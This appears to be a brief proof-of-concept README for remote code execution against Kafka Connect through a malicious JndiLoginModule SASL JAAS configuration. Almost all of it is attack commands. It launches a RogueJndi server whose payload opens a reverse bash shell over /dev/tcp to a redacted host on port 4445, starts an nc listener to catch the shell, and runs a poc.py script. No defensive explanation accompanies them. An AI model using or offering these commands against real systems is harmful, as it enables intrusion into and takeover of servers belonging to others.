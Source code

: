 ## Kafka Connect RCE via connector SASL JAAS JndiLoginModule configuration

```
java -jar RogueJndi-1.1.jar --hostname ███ -c "bash -c bash\${IFS}-i\${IFS}>&/dev/tcp/███/4445<&1"

nc -nlvp 4445

python3 poc.py

```
